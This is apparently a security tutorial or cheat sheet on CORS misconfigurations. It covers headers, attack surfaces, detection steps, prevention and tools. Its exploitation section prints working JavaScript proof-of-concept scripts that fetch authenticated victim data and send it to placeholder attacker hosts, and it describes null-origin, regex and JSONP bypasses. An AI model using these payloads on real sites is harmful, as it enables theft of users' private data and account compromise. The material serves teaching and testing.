

CORS #
What is CORS? #
Cross-Origin Resource Sharing (CORS) is a browser security mechanism that controls how web applications on one origin can request resources from another origin. It works through HTTP response headers such as Access-Control-Allow-Origin, which define which external domains are permitted to access the resource. By default, browsers block cross-origin requests for security, and CORS provides a controlled way to relax this restriction when needed. Misconfigured CORS policies can expose sensitive data or allow unauthorized cross-origin interactions.
How CORS Works (High-Level Flow) #
- A web page makes a request to a different origin.
- The browser automatically adds an
Originheader to the request. - The server decides whether this origin is allowed.
- If allowed, the server sends appropriate CORS response headers.
- The browser enforces the decision and either:
- Allows the response to be read, or
- Blocks it.
CORS is enforced by browsers, not by servers.
Direct requests made via curl, Burp, or scripts are not blocked by CORS.
SOP #
A same-origin policy mandates that a server requesting a resource and the server hosting the resource share the same protocol (e.g., http://), domain name (e.g., internal-web.com), and port (e.g., 80). Under this policy, only web pages from the same domain and port are allowed access to the resources.
The application of the same-origin policy in the context of http://normal-website.com/example/example.html is illustrated as follows:
| URL accessed | Access permitted? |
|---|---|
http://normal-website.com/example/ |
Yes: Identical scheme, domain, and port |
http://normal-website.com/example2/ |
Yes: Identical scheme, domain, and port |
https://normal-website.com/example/ |
No: Different scheme and port |
http://en.normal-website.com/example/ |
No: Different domain |
http://www.normal-website.com/example/ |
No: Different domain |
http://normal-website.com:8080/example/ |
No: Different port* |
Key HTTP Headers in CORS #
Origin (Request Header) #
The Origin header is automatically added by the browser when making a cross-origin request.
It tells the server:
“This request originated from this website.”
Example:
Origin: https://evil-site.com
Access-Control-Allow-Origin (Response Header) #
This response header tells the browser which origin is allowed to read the response.
Example (secure):
Access-Control-Allow-Origin: https://trusted-site.com
Example (insecure):
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials (Response Header) #
This header indicates whether the browser is allowed to include credentials in cross-origin requests.
Credentials include:
- Cookies
- Authorization headers
- TLS client certificates
Example:
Access-Control-Allow-Credentials: true
Invalid and insecure:
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Attack Surfaces #
Origin-Based Attack Surface #
Test how the backend handles different Origin values:
Origin: https://evil.com
Origin: https://trusted.com.evil.com
Origin: https://evil-trusted.com
Origin: null
Origin: file://
If any untrusted origin is reflected in:
Access-Control-Allow-Origin
→ You have a CORS misconfiguration candidate.
Credentialed Attack Surface #
If responses include:
Access-Control-Allow-Credentials: true
Then the impact is much higher because:
- Cookies are sent
- Auth headers are sent
- Sensitive data can be stolen cross-origin
This is Account Takeover / Private Data Disclosure class impact.
Preflight Attack Surface #
Check how the backend responds to:
OPTIONS /endpoint
Origin: https://evil.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Authorization
Overly permissive preflight responses increase the attack surface for:
- PUT / DELETE / PATCH
- Privileged operations
- Token-based APIs
Testing for CORS Misconfiguration #
Request Header
Origin: https://evil.com
Response Header
Allow-Access-Allow-Origin: [evil.com](http://evil.com) **OR** Allow-Access-Allow-Origin: null
Allow-Access-Allow-Credential: true
In response, if the Allow-Access-Allow-Credential is set to true then the browser will transmit the credentials (cookies, Authorization headers, TLS client certificates).
Exploiting CORS Misconfigurations #
Origin Reflection: #
In this case, the request and response will be like:
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
Proof of Concept
To exploit this vulnerability, this JS script need to be hosted in malicious-website.com
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
OR
<html>
<body>
<h2>CORS PoC</h2>
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
<script>
function cors() {
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = alert(this.responseText);
}
};
xhr.open("GET",
"https://victim.example.com/endpoint", true);
xhr.withCredentials = true;
xhr.send();
}
</script>
</body>
</html>
Whitelisted null origin #
In this case, the request and response body will be:
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=...
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
......
Proof of Concept
This vulnerability can be exploit by putting the code in to iframe using the data URI schema.
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://victim.example.com/endpoint',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
XSS on Trusted Origin #
If the application is using strong whitelisting property then the above POC will not work. But if the application trust one origin which is vulnerable to XSS than you can inject the above code in XSS attack to exploit CORS.
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
Wildcard Origin without credentials #
If the server responds with a wildcard origin *, the browser does never send the cookies. However, if the server does not require authentication, it’s still possible to access the data on the server. This can happen on internal servers that are not accessible from the Internet.
In this case, the request and response body will be
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Proof of Concept
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://api.internal.example.com/endpoint',true);
req.send();
function reqListener() {
location='//attacker.net/log?key='+this.responseText;
};
Weak Regular Expression Bypass #
Sometimes regular expression to validate the origin only check the suffix or the prefix of the origin. And this weak implementation to validate the origin can lead to CORS misconfiguration.
Example 1
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true
Example 2
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true
Proof of Concept
This POC need to be hosted in the required domain name according to the regex misconfiguration
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://api.example.com/endpoint',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='//attacker.net/log?key='+this.responseText;
};
Advance Regular Expression Bypass #
Regex patterns typically concentrate on alphanumeric, dot (.), and hyphen (-) characters, neglecting other possibilities. So in some cases if some special characters are included i the domain name it will effect the validation process by the browser and even bypass the domain name validation.
Example 1 (chrome and Firefox)
GET / HTTP/2
Cookie: <session_cookie>
Origin: https://target.application_.arbitrary.com
HTTP/2 200 OK
Access-Control-Allow-Origin: https://target.application_.arbitrary.com
Access-Control-Allow-Credentials: true
Example 2 (Safari)
GET / HTTP/2
Cookie: <session_cookie>
Origin: https://target.application}.arbitrary.com
HTTP/2 200 OK
Cookie: <session_cookie>
Access-Control-Allow-Origin: https://target.application}.arbitrary.com
Access-Control-Allow-Credentials: true

XSSI/JSONP Bypass #
<script src=...> ignores SOP. So browsers send cookies for script requests. And JSONP endpoints return JS, not JSON which will bypass CORS.
Proof of Concept
First add a callback parameter in the request. Maybe the page was prepared to send the data as JSONP. In that case, the page will send back the data with Content-Type: application/javascript which will bypass the CORS policy.
https://example.com/data?callback=testjsonp
Iframe + Popup Bypass #
Sometimes the backend validate the origin via
if (e.origin === window.origin)
In that case, use iframe + window.open() to bypass origin checks.
Detection #
-
Step 1: Identify sensitive endpoints
/api/user/profile /api/account/details /api/orders→ Focus on APIs returning private/authenticated data
-
Step 2: Send request with custom Origin
Origin: https://evil.com→ Check response headers
-
Step 3: Check for reflected Origin
Access-Control-Allow-Origin: https://evil.com→ Indicates dynamic origin handling
-
Step 4: Check credentials support
Access-Control-Allow-Credentials: true→ Critical if used with reflected or weak origin validation
-
Step 5: Test wildcard misconfiguration
Access-Control-Allow-Origin: *→ High risk if endpoint returns sensitive data
-
Step 6: Try null Origin bypass
Origin: null→ Check if server still allows access
-
Step 7: Validate preflight behavior
OPTIONS /api/data Origin: https://evil.com Access-Control-Request-Method: POST→ Look for overly permissive response:
Access-Control-Allow-Methods: * Access-Control-Allow-Origin: * -
Step 8: Compare response behavior
- With
Originheader → allowed/blocked? - Without
Originheader → any difference?
- With
-
Step 9: Browser PoC validation
fetch("https://target.com/api/data", { credentials:"include" })→ Check if response data is accessible cross-origin
-
Step 10: Verify multiple origin acceptance
https://evil.com https://sub.target.com https://random.com→ If all are accepted → misconfigured CORS policy
Impact #
- Exposure of sensitive data to unauthorized external websites
- Unauthorized cross-origin access to authenticated user sessions
- Possibility of performing actions on behalf of users if credentials are included
- Session hijacking in misconfigured credential-based CORS setups
- Data leakage from APIs intended to be restricted to trusted origins
- Increased attack surface for client-side abuse and account compromise
- Violation of same-origin policy leading to loss of browser-level security boundaries
Prevention #
- Allow only trusted origins instead of using wildcards ()
- Avoid reflecting the
Originheader dynamically inAccess-Control-Allow-Origin - Do not set
Access-Control-Allow-Credentials: trueunless absolutely required - Maintain a strict whitelist of allowed domains on the server side
- Restrict allowed HTTP methods (GET, POST, etc.) based on business need
- Limit allowed headers using
Access-Control-Allow-Headers - Disable CORS for internal/admin APIs exposed publicly
- Validate origin and authorization together before serving sensitive data
- Avoid exposing sensitive endpoints to cross-origin requests unnecessarily
Tools #
- s0md3v/Corsy
 - CORS Misconfiguration Scanner
- CORS Misconfiguration Scanner - chenjj/CORScanner - Fast CORS misconfiguration vulnerabilities scanner
- @honoki/PostMessage - POC Builder
- trufflesecurity/of-cors - Exploit CORS misconfigurations on the internal networks
- omranisecurity/CorsOne - Fast CORS Misconfiguration Discovery Tool
Good to Read: #
https://hackerone.com/reports/2332728
https://hackerone.com/reports/288912
References #
- https://infosecwriteups.com/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397
- https://portswigger.net/web-security/cors
- https://portswigger.net/web-security/cors/access-control-allow-origin
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers#CORS
- https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties
- https://www.codecademy.com/articles/what-is-cors
- https://www.we45.com/blog/3-ways-to-exploit-misconfigured-cross-origin-resource-sharing-cors
- https://medium.com/netscape/hacking-it-out-when-cors-wont-let-you-be-great-35f6206cc646
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration
- https://medium.com/entersoftsecurity/every-bug-bounty-hunter-should-know-the-evil-smile-of-the-jsonp-over-the-browsers-same-origin-438af3a0ac3b
- Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018
- CORS misconfig | Account Takeover - Rohan (nahoragg) - October 20, 2018
- CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t) - October 29, 2018
- CORS Misconfiguration on www.zomato.com - James Kettle (albinowax) - September 15, 2016
- CORS Misconfigurations Explained - Detectify Blog - April 26, 2018
- Cross-origin resource sharing (CORS) - PortSwigger Web Security Academy - December 30, 2019
- Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy) - June 1, 2017
- Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle - 14 October 2016
- Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - December 16, 2016
- Think Outside the Scope: Advanced CORS Exploitation Techniques - Ayoub Safa (Sandh0t) - May 14 2019